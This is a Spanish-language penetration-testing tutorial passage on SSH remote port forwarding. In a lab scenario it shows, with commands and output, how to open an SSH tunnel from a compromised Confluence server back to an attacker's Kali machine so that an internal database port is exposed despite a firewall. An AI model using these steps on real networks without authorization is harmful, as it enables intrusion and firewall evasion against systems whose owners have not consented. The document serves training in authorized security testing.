<br />

#### 3.3. SSH Remote Port Forwarding.

Hasta ahora hemos cubierto, casos en los que nos aprovechamos de una conexión SSH entre un cliente y un servidor en una red interna que utilizábamos para interactuar con nuestro entorno de Kali con un host remoto en una red inaccesible. Es decir, hemos creado un túnel SSH dentro de una LAN para crear una redirección de puertos 

<div style="text-align:center">
	<img src="{{ 'assets/img/pen/Pasted image 20230608115055.png' | relative_url }}" text-align="center"/>
</div>

Ahora vamos a cubrir una forma de evadir medidas de seguridad de red, como firewalls o IDS muy frecuentes en escenarios de auditorías reales, creando un túnel SSH de entre nuestra Kali y un host de la LAN que estamos asaltando creando un SSH Remote Port Forwarding, o dicho de otra forma, en vez de conectarnos a un cliente SSH que luego se conecta a un servidor SSH nos conectamos directamente a un servidor SSH que redirige los paquetes sobre otra máquina de la red interna.

<div style="text-align:center">
	<img src="{{ 'assets/img/pen/Pasted image 20230609134241.png' | relative_url }}" text-align="center"/>
</div>

Como ya hemos comentado al principio de esta sección, la tunelización de los datos que enviamos provoca que los datos circulantes entre nuestras dos máquinas sea percibido externamente como otro tipo de tráfico, en este caso; tráfico SSH, más comúnmente permitido que el tráfico HTTP, FTP o de cualquier otra índole entrante.

Así, vamos a ver un ejemplo cambiando el escenario presentado anteriormente. 

En el caso anterior nuestra kali interactuaba con un cliente SSH llamado CONFLUENCE01 directamente. Ahora, vamos a suponer como en la imagen anterior que existe un firewall entre medias, el firewall está configurado para que el único puerto al que podemos conectarnos desde nuestra máquina Kali es el TCP 8090. Esto significa que aunque seguimos teniendo la capacidad de comprometer el servidor no podemos conectarnos a ningún otro puerto para realizar un portforwarding como en los ejemplos anteriores pues el firewall bloquea las conexiones.

Sin emabrgo, afortunadamente para nosotros CONFLUENCE01 tiene un cliente SSH. Así, podemos configurar un servidor SSH. Dado que el firewall permite tráfico SSH, podemos utilizar esta conexión para realizar un portforwarding.

Primero iniciamos el servicio ssh en nuestra kali:

```
kali@kali:~$ sudo systemctl start ssh
[sudo] password for kali: 

kali@kali:~$ sudo ss -ntplu 
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN 0      128             [::]:22           [::]:*     users:(("sshd",pid=181432,fd=4))
```

Y ahora introducimos el siguiente comando en una shell completamente interactiva CONFLUENCE01 :

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
< 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.118.4's password:
```
